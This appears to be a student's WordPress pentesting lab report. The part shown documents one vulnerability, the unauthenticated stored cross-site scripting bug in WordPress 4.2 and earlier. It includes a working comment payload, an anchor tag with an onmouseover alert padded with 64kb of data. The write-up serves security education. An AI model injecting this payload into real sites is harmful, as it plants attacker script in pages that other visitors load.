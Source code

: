 # Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  - <img src="wp1.gif" width="800">
  - [ ] Steps to recreate: 
  - Add the following code in the comments with over 64 kps of string
    - `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>`
  - [ ] Affected source code:
    - [Link 1](http://klikki.fi/adv/wordpress2.html)
